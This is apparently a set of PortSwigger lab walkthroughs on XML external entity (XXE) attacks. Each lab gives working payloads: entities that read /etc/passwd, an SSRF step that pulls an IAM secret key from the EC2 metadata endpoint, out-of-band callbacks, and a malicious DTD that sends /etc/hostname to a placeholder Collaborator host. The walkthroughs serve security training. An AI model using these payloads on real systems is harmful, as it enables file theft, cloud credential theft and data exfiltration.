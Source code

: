 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8afc8214-9a2e-4d83-b374-cf2077bb0594)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1df95350-7428-4192-b893-2aa38c5ee0d8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/708a1c40-e077-46f2-9db4-6a5642732af1)

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8df209cf-4144-4121-986f-fa9f7eb59494)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/73f1997e-a9ff-4226-ac36-6039d0a88b6a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/94269059-7387-4362-a69f-e26947ca38a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/12bc1db7-bc89-4837-a888-298821baa798)

**Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Using Burp Suite Professional, go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
Place the Burp Collaborator payload into a malicious DTD file:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1f4d0bee-a930-4eff-b4d9-decb8cddbd9a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/dd67acd8-378e-4809-b56c-1e5b2f61d286)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8bccc266-40c5-4318-a957-d4899d818712)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a812d4f2-ec14-40c6-afa0-21df3c2bae30)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eec5b5f6-6fa2-43d5-80a9-608676972f7c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/55c1342e-23d2-4205-89f2-0d73c0931f2c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/c5281175-2a58-4266-bac1-e9ba8bab0bc6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/41731873-a46d-4ab5-abb9-0073d67d1c7c)

**
